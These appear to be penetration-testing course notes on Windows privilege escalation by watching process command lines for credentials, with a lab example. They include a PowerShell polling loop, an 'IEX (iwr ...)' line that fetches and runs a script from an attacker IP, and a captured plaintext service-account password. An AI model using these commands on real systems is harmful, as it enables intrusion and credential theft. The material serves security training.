#### Monitoring for Process Command Lines
there may be scheduled tasks or other processes being executed which pass credentials on the command line.

we can use this powershell script to monitor:
`captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.`
```shell-session
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

```powershell-session
IEX (iwr 'http://10.10.10.205/procmon.ps1') 

@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
```
## Vulnerable Services

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction.

